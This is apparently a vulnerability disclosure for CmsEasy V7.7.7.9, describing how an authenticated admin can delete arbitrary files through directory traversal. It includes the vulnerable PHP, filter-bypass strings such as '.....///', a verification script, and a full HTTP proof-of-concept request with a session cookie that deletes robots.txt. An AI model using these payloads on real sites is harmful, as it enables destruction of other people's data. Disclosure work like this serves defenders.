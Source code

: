 # CmsEasy Directory Traversal Leading to Arbitrary File Deletion Vulnerability

------

**Note: This vulnerability requires backend privileges**

------



# Vendor Information

**Developer:** 四平市九州易通科技有限公司 Siping Jiuzhou Yitong Technology Co., Ltd.

**Product Information:** CmsEasy V7.7.7.9 20240105

**Official Website:** https://www.cmseasy.cn/

**Product Source Code Download Address:** https://ftp.cmseasy.cn/CmsEasy7.x/CmsEasy_7.7.7_UTF-8_20240105.zip



# Trigger Points

**Note: This vulnerability requires backend privileges**

Located in: `lib/admin/file_admin.php` within the function `deleteimg_action`. **Note: In this project, `front::get` is equivalent to `$_GET`.**

**Objective:** To trigger the `if (!unlink($img))` statement.

```php
function deleteimg_action() {
        if (!front::get('dir') || !front::get('imgname'))
            return;
        $img = ROOT  .config::get('html_prefix').'/'. '/upload/images/' . front::get('dir') . '/' . str_replace('___', '.', front::get('imgname'));
        $img = str_replace('.php', '', $img);
        $img = str_replace('#', '', $img);
        $img = str_replace('../', '', $img);
        $img = str_replace('./', '', $img);

        if (!file_exists($img))
            front::flash(lang_admin('picture').lang_admin('nonentity'));
        if (!unlink($img))   // --------触发位置----------------         front::flash(lang_admin('delete').lang_admin('failure').'，'.lang_admin('please_check_permissions'));
        else
            front::flash(lang_admin('picture').lang_admin('ondelete'));
        front::redirect(url::modify('act/listimg/dir/' . front::get('dir')));
    }
```



# Vulnerability Analysis



## Bypassing the Filtering

The function includes protection measures, but its filtering is not strict enough, allowing for bypass.

Note: `config::get('html_prefix')` is a fixed value `cn`, which enables directory traversal via controlling the `dir` parameter.

```php
        $img = ROOT  .config::get('html_prefix').'/'. '/upload/images/' . front::get('dir') . '/' . str_replace('___', '.', front::get('imgname'));
        $img = str_replace('.php', '', $img);
        $img = str_replace('#', '', $img);
        $img = str_replace('../', '', $img);
        $img = str_replace('./', '', $img);
```

**Bypass Methods: Two Approaches**

**Method One:** Use conventional path parsing combined with rewriting

```php
.....///.....///
=>result in
../../
```

**Method Two:** Leverage Windows path parsing characteristics:

```
..\\ or ..\
```

Similarly, if you want to traverse PHP files, you only need to construct `.p.phphp`.

**Code Verification:**

```php
<?php
function check_url($tpl){
   $tpl = str_replace('.php', '', $tpl);
    $tpl = str_replace('#', '', $tpl);
    $tpl = str_replace('../', '', $tpl);
    $tpl = str_replace('./', '', $tpl);
    return $tpl;
}
$str1 = '.p.phphp';
$str2 = '.....///.....///';  

$path1 = check_url($str1);
$path2 = check_url($str2);

echo 'path1:  ' . $path1 . "\n";  // path:  .php
echo 'path2:  ' . $path2 . "\n"; // path1:  ../../
```

## Request Construction

After testing, we can conclude the following:

Request analysis:

```http
http://127.0.0.1:5678/index.php?case=database&act=backAll&admin_dir=admin&site=default
```

- The `case` parameter corresponds to the business logic file located under the `lib/admin` directory (in this example, it is `database_admin.php`).
- The `act` parameter corresponds to the `xxxx_action` function within the file pointed to by `case` (in this example, it is the `backAll_action()` method).
- The `admin_dir` parameter is the backend directory parameter (this vulnerability requires backend privileges).
- The `site` parameter is the default parameter if not configured (it has no impact).

Thus, we can construct the request as follows, where `{xxxx}` represents the injection points for `dir` and `imgname`:

```htt[
http://127.0.0.1:5678/index.php?case=file&act=deleteimg&admin_dir=admin&site=default&dir={xxxx}&imgname={XXXX}
```



## POC Construction and Verification

According to the explanation of the function earlier:

```php
$img = ROOT  .config::get('html_prefix').'/'. '/upload/images/' . front::get('dir') . '/' . str_replace('___', '.', front::get('imgname'));
```

This results in appending `dir` and `imgname` to the directory `/cn/upload/images/`.

![image-20250202183849224](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250202183849224.png)

Among them, the directories `202012` and `201908` are fixed template static resources. (According to FoFa testing, most targets have image files under the `202012` directory, for example, the external mapping of the sample image resource is `/images/banner/s1.jpg`).

We attempt to delete `robots.txt` (located in the root directory).

![image-20250202183943448](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250202183943448.png)



**Construct Request Message:**

```http
GET /index.php?case=file&act=deleteimg&admin_dir=admin&site=default&dir=202012&imgname=.....///.....///.....///.....///robots.txt HTTP/1.1
Host: 192.168.107.1:5678
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=kedh3tpmobjfgci55hvqskpfq6; login_username=admin; login_password=UcaU5eNfvRIM4QKU5SNaASI45RKg6egPvR7A%253DSNhregCK2ab18391e6e61e99aff8e10d05e4ad02
referer: http://192.168.107.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Connection: keep-alive
```

A response of `302` is considered normal.

![image-20250202184035246](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250202184035246.png)

Checking the `robots.txt` file, it was found to have been successfully deleted.

![image-20250202184111275](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250202184111275.png)

Vulnerability verification successful.







































